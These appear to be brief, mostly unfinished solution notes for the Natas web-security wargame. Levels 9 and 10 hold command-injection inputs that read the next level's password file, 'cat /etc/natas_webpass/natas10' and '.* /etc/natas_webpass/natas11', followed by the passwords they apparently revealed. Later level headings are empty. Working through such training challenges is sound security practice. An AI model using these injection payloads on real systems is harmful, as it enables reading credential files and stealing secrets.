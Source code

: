 W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 

# Level 9
write: aaa; cat /etc/natas_webpass/natas10
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
# Level 10
.* /etc/natas_webpass/natas11
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
# Level 11


# Level 12

# Level 13

# Level 14

# Level 15

# Level 16

# Level 17

# Level 18

# Level 19

# Level 20

# Level 21

# Level 22

# Level 23
